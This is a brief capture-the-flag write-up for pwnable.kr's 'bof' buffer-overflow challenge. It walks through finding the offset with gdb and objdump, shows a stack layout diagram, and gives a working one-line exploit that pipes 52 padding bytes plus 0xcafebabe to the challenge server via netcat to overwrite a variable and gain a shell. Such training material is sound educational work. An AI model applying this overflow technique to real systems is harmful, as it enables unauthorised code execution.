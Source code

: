 #### pwnable-kr
##### Toddler's Bottle | bof challenge
**Note** </br>
if you are using 64 bit machine you need to install these:</br>
```
 $ sudo apt-get install libc6-i386
 $ sudo apt-get install g++-multilib
```

with these you can run bof in your system :) </br>
there are 2 way to solve this problem.

---
**one** </br>
use `gdb bof` and put breakpoint on func </br>
use `run` command and enter 32 `A` in the input </br>
Ok, lets inspect the memory. We can use `xw` to display 32bit words (instead of 8, making it easier for us to see our patterns).
```
(gdb) x/20xhw $esp
```
you can see 5 word after `A`s there is `deadbeaf`; so we must enter 13 word `A` (it means 52 `A`) and after than  `cafebabe` on the input.</br>

so use this command to make if condition be `TRUE` and after than write `cat flag` to see the flag.
</br>
```
$ (python -c "print 'A'*52+'\xbe\xba\xfe\xca'") | nc pwnable.kr 9000
```
---
**TWO**</br>
use `objdump`; on `func` you can see `$epb` has `0x2C` length.</br>
in this program, memory schema is like this:
```
|--------------------| High address
|       	         |
|--------------------|
|  int key (4 Bytes) | <- method parameters
|--------------------|
|   SEIP (4 Bytes)   | <- saved EIP;(also called program counter) 
|--------------------|
|   sebp (4 Bytes)   | <- saved ebp
|--------------------|
|                    |
|        ebp		 |
|    (0x2C Bytes)    |
|           	     |
|--------------------|
|              		 |
|--------------------| Low address
```
 so after you underestand that you can write code like [this](https://gist.github.com/Aseyed/db9c9685fef7f3b9399378f868aff3a3#file-pwnable-kr_bof-py) </br>
 run the code with python2 after that you can run `cat flag` to catch the flag

